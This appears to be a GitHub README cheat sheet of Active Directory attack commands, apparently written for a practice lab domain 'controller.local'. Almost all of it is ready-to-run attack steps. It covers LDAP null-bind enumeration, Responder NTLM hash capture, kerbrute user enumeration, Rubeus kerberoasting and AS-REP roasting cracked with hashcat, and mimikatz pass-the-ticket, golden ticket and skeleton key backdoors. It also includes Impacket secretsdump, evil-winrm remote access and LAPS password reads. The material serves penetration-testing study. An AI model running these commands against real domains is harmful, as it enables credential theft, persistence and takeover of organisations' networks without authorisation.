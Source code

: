 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search
  a. ldapsearch -h $ip -p 389 -x -s base
2. Null creds to try and get list of usernames
  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)

# Responder #
1. Start up responder
  a. sudo responder -I tun0
  b. Call request either smb or website (download a file from your python server)
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
    a Rubeus.exe harvest /interval:30
  2. Brute force Password1 against all users
    a Rubeus.exe brute /password:Password1 /noticket
  3. Kerberoast -dump hashes of any kerberoastable users
    a Rubeus.exe kerberoast
    b Copy hash to hash.txr watch out for spaces
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
    a. rubeus.exe asreproast
    b Get all accounts that do not require pre authentication
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    d hashcat -m 18200 hash.txt rockyou.txt
  2. Impacket GetNPUsers.py
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    c Choose a ticket with admin (or user you want)
    d kerberos::ptt <ticket file name>
    e exit mimi
    f klist (show that you have now changed)
 3. Gold and Silver Tickets
    a run as admin
    b privilege::debug
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
    d Gold ticket -> 			i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
 4. Mimikatz skeleton
		a. run as admin
		b. privilege::debug
		c. misc::skeleton
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1![image](https://user-images.githubusercontent.com/6464797/152891832-b09edb4c-c062-4219-a5d3-fa8262a52d4d.png)

# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    b. Powershell schedule task to run rev shell with admin priv?

  #Lateral Movements #

 

